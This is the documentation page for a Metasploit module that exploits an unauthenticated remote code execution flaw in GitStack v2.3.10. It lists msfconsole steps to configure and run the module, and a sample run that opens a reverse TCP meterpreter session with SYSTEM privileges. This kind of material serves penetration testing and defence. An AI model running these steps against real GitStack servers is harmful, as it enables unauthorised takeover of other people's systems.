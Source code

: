 ## Description

An unauthenticated remote code execution vulnerability exists in GitStack through v2.3.10. This
module exploits the vulnerability by sending unauthenticated REST API requests to put the
application in a vulnerable state, if needed, before sending a request to trigger the exploit.
These configuration changes are undone before the module exits. The module has been tested on
GitStack v2.3.10.

## Vulnerable Application

In vulnerable versions of GitStack, a flaw in `Authentication.class.php` allows [unauthenticated remote code execution](https://security.szurek.pl/gitstack-2310-unauthenticated-rce.html) since `$_SERVER['PHP_AUTH_PW']` is passed directly to an `exec` function.

To exploit the vulnerability, the repository web interface must be enabled, a repository must
exist, and a user must have access to the repository.

Note: A passwd file should be created by GitStack for local user accounts.
Default location: `C:\GitStack\data\passwdfile`.

## Verification Steps

* Install a vulnerable GitStack application
* `./msfconsole`
* `use exploit/windows/http/gitstack_rce`
* `set rhost <rhost>`
* `set verbose true`
8 `run`

Note: You may have to run the exploit multiple times since the powershell that is generate has to
be under a certain size.

## Scenarios

### GitStack v2.3.10 on Windows 7 SP1

```
msf > use exploit/windows/http/gitstack_rce
msf exploit(windows/http/gitstack_rce) > set rhost 172.22.222.122
rhost => 172.22.222.122
msf exploit(windows/http/gitstack_rce) > set verbose true
verbose => true
msf exploit(windows/http/gitstack_rce) > run

[*] Started reverse TCP handler on 172.22.222.131:4444 
[*] Powershell command length: 6103
[-] Web interface is disabled
[-] No repositories found
[+] Web interface successfully enabled
[+] The repository has been successfully created
[+] Created user: ZROTE
[+] User ZROTE added to EsILm
[*] Sending stage (252483 bytes) to 172.22.222.122
[+] ZROTE removed from EsILm
[+] ZROTE has been deleted
[+] Web interface successfully disabled
[+] EsILm has been deleted

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-V438RLMESAE
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > 
```
